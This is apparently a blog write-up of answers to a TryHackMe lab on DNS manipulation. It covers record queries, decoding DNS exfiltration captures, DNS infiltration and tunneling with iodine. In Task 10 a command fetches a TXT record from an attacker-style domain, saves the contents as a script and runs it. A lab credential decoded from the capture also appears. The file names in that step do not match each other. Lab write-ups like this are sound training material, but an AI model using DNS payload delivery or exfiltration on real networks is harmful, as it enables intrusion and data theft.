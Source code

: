 ```yaml
---
title: "THM | DNS Manipulation"
date: 2022-04-17
type: "post"
draft: false
showtableOfContents: true
---
```


## Room

https://tryhackme.com/room/dnsmanipulation

## Task 1: Introduction

*No answer needed*

## Task 2:  Installation

*No answer needed*

## Task 3: [Setup] Custom Public DNS Server

*No answer needed*

## Task 4: What is DNS? 

#### Question 1: If you were on Windows, what command could you use to query a txt record for "youtube.com"?

*~ nslookup -type=txt youtube.com*

#### Question 2: If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

*~ dig facebook.com TXT*

#### Question 3: AAAA stores what type of IP Address along with the hostname?

*~ IPv6*

#### Question 4: Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

*~ Nay*

#### Question 5: What DNS Record provides a domain name in reverse-lookup? (Research)

*~ PTR*

#### Question 6: What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)

*~ 2.203.168.192.in-addr.arpa*

```bash
nslookup 192.168.203.2
```

![source](/images/write-ups/dnsmanipulation/2022.png

## Task 5: What is DNS Exfiltration? 

#### Question 1: What is the maximum length of a DNS name? (Research) (Length includes dots!)

*~ 253*

## Task 6: DNS Exfiltration - Demo

*No answer needed*

## Task 7: DNS Exfiltration - Practice

```bash
cd ~/challenges/exfiltration/orderlist/
python3 ~/dns-exfil-infil/packetyGrabber.py order.pcap
cat order.txt
```

![source](/images/write-ups/dnsmanipulation/2022_1.png)

![source](/images/write-ups/dnsmanipulation/2022_2.png)

#### Question 1: What is the Transaction name? (Type it as you see it)

*~ Network Equip.*

#### Question 2: How much was the Firewall? (Without the $)

*~ 2500*

#### Question 3: Which file contain suspicious DNS queries? 

*~ cap3.pcap*

#### Question 4: Enter the plain-text after you have decoded the data using packetyGrabber.py found in ~/dns-exfil-infil/ folder.

*~ administrator:s3cre7P@ssword*

```bash
cd ../identify/
python3 ~/dns-exfil-infil/packetyGrabber.py cap3.pcap
cat cap.txt
```

![source](/images/write-ups/dnsmanipulation/2022_3.png)

## Task 8: What is DNS Infiltration?

#### Question 1: What type of DNS Record is usually used to infiltrate data into a network?

*~ txt*

## Task 9: DNS Infiltration - Demo

*No answer needed*

## Task 10: DNS Infiltration - Practice

*~ 4.4.0-186-generic*

```bash
nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \* -f2 > .mail.python3
python3 ~/dns-exfil-infil/packetySimple.py 
python3 .mal.py
```

![source](/images/write-ups/dnsmanipulation/2022_4.png)

## Task 11: DNS Tunneling

#### Question 1: What program was used to Tunnel HTTP over DNS?

*~ iodine*

## Task 12: The End

*No answer needed*

that's it ✌🏽

-------------------------------------------------------------
{{< rawhtml >}} 
 
{{< /rawhtml >}}